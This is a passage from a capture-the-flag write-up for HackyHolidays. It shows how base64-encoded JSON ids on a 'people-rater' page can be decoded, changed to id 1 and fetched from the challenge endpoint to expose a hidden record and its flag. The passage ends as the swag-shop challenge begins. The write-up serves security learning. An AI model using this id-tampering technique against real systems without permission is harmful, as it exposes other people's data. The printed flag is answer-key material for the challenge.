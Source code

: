 {F1138473}

{F1138474}

Inspecting the webpage tells us that each and every button has an associated data-id attribute. Tea Avery, for example, has the id `eyJpZCI6Mn0=`. Hmm, looks like base64 - let's have a look!

```javascript
atob('eyJpZCI6Mn0=');
```
```json
{
  "id":2
}
```

Oh, nice, a JSON-object providing us with an id, makes sense that it star... wait a minute. Why would it start with id 2? Who is id 1? Just have to check! Enter the following into the browser's console:

```javascript
// encode {"id":1}
const o = btoa('{"id":1}');
// eyJpZCI6MX0=
```

Now, how are people fetched? Source inspection tells us a request is made to `https://hackyholidays.h1ctf.com/people-rater/entry?id=IDHERE`
Let's plug our encoded object into it and see what it returns!
```javascript
fetch(`https://hackyholidays.h1ctf.com/people-rater/entry?id=${o}`).then(d => d.text()).then(d => console.log(d));
```
```JSON
{
  "id":"eyJpZCI6MX0=",
  "name":"The Grinch",
  "rating":"Amazing in every possible way!",
  "flag":"flag{b705fb11-fb55-442f-847f-0931be82ed9a}"
}
```

Sweet, the third flag is `flag{b705fb11-fb55-442f-847f-0931be82ed9a}`!

## /swag-shop - the fourth flag
Ah, the swag-shop - I wonder who'd actually be shopping from here. They have only three items, none of them with pictures, and while the 'Snow Ball Launcher' does appeal to me, $395 seems rather steep...

{F1138475}

That said, let's try purchasing it! Wait, I need to log in to buy it?
{F1138477}

No way to register a user, no obvious credentials work... Hmm. Let's look at the source, then - I want that launcher!
